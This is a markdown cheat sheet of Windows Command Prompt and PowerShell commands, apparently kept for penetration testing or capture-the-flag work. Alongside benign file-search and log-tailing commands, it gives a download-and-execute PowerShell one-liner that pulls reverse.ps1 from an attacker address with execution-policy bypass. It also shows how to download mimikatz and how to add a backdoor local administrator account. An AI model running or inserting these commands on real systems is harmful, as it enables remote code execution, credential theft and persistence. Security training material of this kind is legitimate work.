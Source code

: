 # Useful commands in Windows

## Windows - Command Prompt

### Find a file
```batch
dir "\secretfile" /s
```

### Find strings in files
```batch
findstr /s /i "FLAG{" C:\*.*
```

### Find multiple words, strings and patterns
* (Equivalent of `#!bash grep -e WORD1 -e WORD2 -e WORD3`)
```batch
findstr /C:WORD1 /C:WORD2 /C:WORD3 FILENAME.TXT
```

### Enable default local "administrator" account
```batch
net user administrator /active:yes
```

### Adding local accounts (Must have system privileges)
```batch
net user trojand imashortpassword /add
net localgroup administrators trojand /add
```

### List files using `#!bash tree`
```batch
tree /f
tree /f /a > tree.txt
```

### Change user password
```batch
net user trojand imareallyreallyreallylongpasswordnow
```

## Windows - Powershell 

### Nested quotes or wrapping multiple double quotes
* Triple double quotes to make one double quote.
* In the example below, the whole RCE command is taken as a variable. Think of the single quotes also as the command portion in your RCE expoits.
    ```powershell
    var g = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://10.0.1.5:1337/reverse.ps1""")"'
    ```
* For executing in powershell directly (i.e. interactive powershell), you must use a Grave Accent symbol before the three(3) double quotes.
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```
* BEWARE: This does not seem to work if you are to encode the whole command (IEX...). Better to encode payload/command from Windows to see if it gives an error


### Download files
* Download only [^1]
    ```powershell
    Invoke-WebRequest "http://<KALI_IP>:8000/mimikatz.zip" -Out mimikatz.zip
    
    (New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  
    
    $client = new-object System.Net.WebClient
    $client.DownloadFile("http://<KALI_IP>:8000/mimikatz.zip","mimikatz.zip")
    ```
* Download and execute
    ```powershell
    powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString(`"""http://10.0.1.5:1337/reverse.ps1`""")"
    ```

### cat, tail, grep in Windows PS
* Reading Files
    ```powershell
    Get-Content output.log
    ```
* Tail
    ```powershell
    Get-Content output.log -Tail <number of lines>
    Get-Content output.log -Tail 10
    ```
* Tail -f
    ```powershell
    Get-Content output.log -Tail 10 -Wait
    ```
* Grep
    ```powershell
    Get-Content output.log | Select-String -Pattern "<pattern>"
    Get-Content output.log | Select-String -Pattern "password"
    ```
* Grep -A 3
    ```powershell
    Get-Content output.log | Select-String -Pattern "password" -Context 0,3
    ```
* Tail -f | Grep -A 3
    ```powershell
    Get-Content output.log -Tail 10 -Wait | Select-String -Pattern "password" -Context 0,3
    ```

[^1]: [Abatchy](https://www.abatchy.com/2017/03/powershell-download-file-one-liners)
